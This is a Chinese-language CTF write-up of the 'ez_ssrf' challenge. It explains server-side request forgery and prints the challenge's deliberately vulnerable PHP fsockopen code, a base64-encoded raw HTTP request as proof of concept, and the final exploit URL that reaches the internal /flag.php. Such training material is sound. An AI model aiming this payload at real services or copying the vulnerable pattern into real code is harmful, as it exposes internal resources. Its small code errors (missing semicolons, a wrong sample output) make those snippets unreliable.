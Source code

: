 @[TOC](文章目录)

# 一、前言
今天在打CTF的时候碰到了一道有关ssrf漏洞的题，以前做的也不多，今天就来记录一下
# 二、相关知识
先来简单的介绍一下ssrf漏洞<br />
ssrf中文名叫做`服务端请求伪造`<br />
正常的处理请求过程是：用户发送请求-->服务端处理请求-->服务端像客户端返回请求<br />
该漏洞产生的原因是在第一步的时候，发送一个恶意url的请求，这个url指令是让服务器访问内部资源，当服务端处理这个恶意的请求后，就会将内部资源的结果发送给客户端<br />
# 三、题目复现
## 1.题目名称
[HNCTF 2022 WEEK2]ez_ssrf
## 2.解题过程
先用dirsearch扫描一下
![img2.png](pics/img2.png)
发现了/flag.php这个目录，访问一下这个目录
![img1.png](pics/img1.png)
这句话就暗示了在本地使用<br />
另外题目上有提示，拼接一下路径index.php。<br />
得到本题的php源码
```
<?php

highlight_file(__FILE__);
error_reporting(0);

$data=base64_decode($_GET['data']);
$host=$_GET['host'];
$port=$_GET['port'];

$fp=fsockopen($host,intval($port),$error,$errstr,30);
if(!$fp) {
die();
}
else {
fwrite($fp,$data);
while(!feof($data))
{
echo fgets($fp,128);
}
fclose($fp);
}
```
`fsockopen函数`的作用就是打开一个网址，此时ssrf漏洞已经显现出来了<br />
我们就开始构造POC吧<br />
记住POC几个必须有的参数：connection,host
```declarative
<?php
$out = "GET /flag.php HTTP/1.1\r\n"
$out .= "HOST: 127.0.0.1\r\n"
$out .= "Connection:close\r\n"
echo base64_encode($out)
?>
```
GET后面的HTTP/1.1表示HTTP协议的版本,`\r\n`表示换行<br />
`Connection:close`表示将连接关闭。在HTTP/1.1协议中，每一段连接都会保证keep-alive,以保证可以复用。但我们这里只需要执行请求后，关闭就好<br />
`.=`表示将字符串拼接运算符<br />
举一个例子
```declarative
$a = "hello";
$a .= "world";
echo $a;    //输出hello world
```
运行一下，得出data的参数值，随后构造URL为<br />
`/index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=`
